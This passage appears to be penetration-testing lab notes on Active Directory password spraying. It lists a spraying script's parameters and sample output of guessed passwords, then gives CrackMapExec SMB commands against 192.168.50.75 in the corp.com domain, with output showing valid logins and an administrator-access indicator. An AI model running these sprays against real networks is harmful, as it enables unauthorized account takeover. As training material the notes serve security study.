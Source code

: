 **Command Parameters:**
- **-Pass**: Single password to test against all users
- **-File**: Wordlist file for multiple password attempts
- **-Admin**: Include administrative accounts in attack scope

**Sample Attack Output:**
```
WARNING: also targeting admin accounts.
Performing brute force - press [q] to stop the process and print results...
Guessed password for user: 'pete' = 'Nexus123!'
Guessed password for user: 'jen' = 'Nexus123!'
Users guessed are:
 'pete' with password: 'Nexus123!'
 'jen' with password: 'Nexus123!'
```

**Attack Features:**
- **Account Policy Awareness**: Respects lockout thresholds and observation windows
- **User Enumeration**: Automatically discovers domain users
- **Progress Monitoring**: Real-time feedback on successful authentications
- **Stealth Operation**: LDAP-based validation minimizes network signatures

### SMB-Based Password Spraying with CrackMapExec

**Tool Setup and User List Creation:**
```bash
# Create target user list
cat users.txt
dave
jen
pete

# Execute SMB-based password spray
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

**Attack Output Analysis:**
```
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [-] corp.com\dave:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\jen:Nexus123!
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\pete:Nexus123!
```

**Administrative Privilege Detection:**
```bash
# Test specific user with known credentials
crackmapexec smb 192.168.50.75 -u dave -p 'Flowers1' -d corp.com
```

**Administrative Access Indicator:**
```
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\dave:Flowers1 (Pwn3d!)
```
